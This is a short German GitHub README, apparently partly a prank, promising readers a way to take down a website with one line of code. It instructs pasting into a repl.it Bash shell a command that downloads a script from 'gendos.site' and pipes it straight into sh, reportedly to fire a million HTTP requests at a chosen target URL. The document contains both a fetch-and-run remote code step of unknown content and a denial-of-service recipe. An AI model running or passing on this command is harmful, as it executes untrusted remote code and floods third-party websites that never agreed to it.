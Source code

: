 # Hoppsgenommen asa7be


Du kleiner Hägger bist hier gelandet, weil du wissen willst, wie man eine Seite mit einer Zeile code nimmt?

Dann bist du hier genau richtig !


Geh auf [repl.it](https://repl.it) und generiere eine neue Bash repl.

![repl.it how to make bash](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/replit.png)

Dann paste dort folgenden code rein:

```bash
curl -L "gendos.site?args=https://deinezielurl.de%20-n=1000000" | sh
```

Drücke auf `Run` und schau was passiert :D!

PS.: Es kann unter Umständen etwas dauern, da [hey](https://github.com/rakyll/hey) 1000000 Requests
gegen "https://deinezielurl.de" feuert.

Enjoy.

Proudly presented by Hoppsgenommen.de:

![Hoppsgenommen du lappen](https://github.com/hoppsgenommen/hoppsgenommen.github.io/raw/master/g102.png)
